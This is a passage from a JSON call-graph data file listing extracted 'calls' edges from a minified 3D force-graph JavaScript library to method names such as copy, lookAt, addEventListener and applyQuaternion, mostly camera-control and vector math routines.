"target": "getBoundingClientRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "subVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_rotateCamera"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_zoomCamera"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_panCamera"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_checkDistances"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "lookAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "distanceToSquared"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispatchEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "lookAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "distanceToSquared"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispatchEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "updateProjectionMatrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "subVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "lookAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispatchEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_panCamera"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sub"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "lengthSq"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiplyScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cross"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setLength"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setLength"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiplyScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_rotateCamera"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sub"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "crossVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setLength"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setLength"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "crossVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromAxisAngle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyQuaternion"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyQuaternion"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sub"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromAxisAngle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyQuaternion"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyQuaternion"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_zoomCamera"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiplyScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clamp"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "updateProjectionMatrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiplyScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clamp"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "updateProjectionMatrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_getMouseOnScreen"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_getMouseOnCircle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_addPointer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_removePointer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_trackPointer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_getSecondPointerPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_checkDistances"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "lengthSq"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "lengthSq"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setPointerCapture"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_addPointer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_onTouchStart"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_onMouseDown"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_onTouchMove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_onMouseMove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_onTouchEnd"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_onMouseUp"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_removePointer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "releasePointerCapture"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_removePointer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispatchEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispatchEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispatchEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispatchEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispatchEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_getSecondPointerPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispatchEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromUnitVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "invert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "connect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "connect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getRootNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "disconnect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "stopListenToKeyEvents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getRootNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "disconnect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getPolarAngle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getAzimuthalAngle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getDistance"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "distanceTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "listenToKeyEvents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "stopListenToKeyEvents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "saveState"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "updateProjectionMatrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispatchEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sub"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyQuaternion"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromVector3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_rotateLeft"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isFinite"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isFinite"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "makeSafe"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addScaledVector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sub"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clampLength"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_clampDistance"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_clampDistance"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyQuaternion"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "lookAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiplyScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_clampDistance"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addScaledVector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "updateMatrixWorld"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "unproject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "updateProjectionMatrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "unproject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sub"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "updateMatrixWorld"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "transformDirection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiplyScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "transformDirection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "lookAt"}, {"confidence": "EXTRACTED", "relation": 